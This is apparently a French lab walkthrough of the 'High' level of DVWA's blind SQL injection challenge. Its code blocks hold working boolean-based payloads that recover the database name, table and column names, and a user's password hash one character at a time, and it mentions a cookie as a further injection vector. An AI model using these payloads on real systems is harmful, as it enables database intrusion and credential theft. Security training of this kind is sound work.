




# Niveau "High"

Un changement est effectué au niveau de l’interface pour ce niveau « High ». Une pop-up est disponible pour insérer l’objet de la recherche et le résultat s’affiche sur la fenêtre principale :



Il me faut donc maintenant découvrir si le champ est vulnérable à une injection de type SQL. Bien sur, il s’agira ici d'une injection à l’aveugle car l’application ne peut retourner que vrai/faux. De plus, l'injection sera de type String comme pour le niveau "Low" :





Je commence donc par récupérer le nom de la base de données :

.png>)

Soit (le premier apostrophe est présent juste pour la coloration syntaxique) :

```sql
'1' AND ORD(MID(DATABASE(),1,1)) = 100 --  // d
'1' AND ORD(MID(DATABASE(),2,1)) = 118 --  // v
'1' AND ORD(MID(DATABASE(),3,1)) = 119 --  // w
'1' AND ORD(MID(DATABASE(),4,1)) = 97 --   // a
```

Puis les noms des tables existantes :

```sql
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),1,1)) = 103 --  // g 
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),2,1)) = 117 --  // u
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),3,1)) = 101 --  // e
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),4,1)) = 115 --  // s
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),5,1)) = 116 --  // t
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),6,1)) = 98 --   // b
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),7,1)) = 111 --  // o
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),8,1)) = 111 --  // o
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),9,1)) = 107 --  // k
```

```sql
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 1,2),1,1)) = 117 --  // u 
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 1,2),2,1)) = 115 --  // s
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 1,2),3,1)) = 101 --  // e
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 1,2),4,1)) = 114 --  // r
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 1,2),5,1)) = 115 --  // s
```

Ensuite les noms des colonnes : `user` et `password` de la table `users` :

```sql
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 3,1),1,1)) = 117 --  // u 
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 3,1),2,1)) = 115 --  // s
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 3,1),3,1)) = 101 --  // e
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 3,1),4,1)) = 114 --  // r
```

```sql
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),1,1)) = 112 --  // p 
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),2,1)) = 97 --   // a
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),3,1)) = 115 --  // s
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),4,1)) = 115 --  // s
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),5,1)) = 119 --  // w
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),6,1)) = 111 --  // o
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),7,1)) = 114 --  // r
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),8,1)) = 100 --  // d
```

Puis finalement l'empreinte MD5 du mot de passe de Pablo :

```sql
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),1,1)) = 48 --   // 0 
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),2,1)) = 100 --  // d
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),3,1)) = 49 --   // 1
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),4,1)) = 48 --   // 0
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),5,1)) = 55 --   // 7
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),6,1)) = 100 --  // d
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),7,1)) = 48 --   // 0
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),8,1)) = 57 --   // 9
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),9,1)) = 102 --  // f
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),10,1)) = 53 --  // 5
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),11,1)) = 98 --  // b
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),12,1)) = 98 --  // b
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),13,1)) = 101 -- // e
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),14,1)) = 52 --  // 4
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),15,1)) = 48 --  // 0
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),16,1)) = 99 --  // c
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),17,1)) = 97 --  // a
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),18,1)) = 100 -- // d
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),19,1)) = 101 -- // e
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),20,1)) = 51 --  // 3
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),21,1)) = 100 -- // d
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),22,1)) = 101 -- // e
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),23,1)) = 53 --  // 5
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),24,1)) = 99 --  // c
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),25,1)) = 55 --  // 7
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),26,1)) = 49 --  // 1
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),27,1)) = 101 -- // e
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),28,1)) = 57 --  // 9
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),29,1)) = 101 -- // e
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),30,1)) = 57 --  // 9
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),31,1)) = 98 --  // b
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),32,1)) = 55 --  // 7
```

Soit :




Dans ce niveau "High", un cookie est créé pour chacune des requêtes effectuées avec comme valeur l'entrée renseignée par l'utilisateur. Il est donc également possible d'attaquer l'application par ce vecteur.

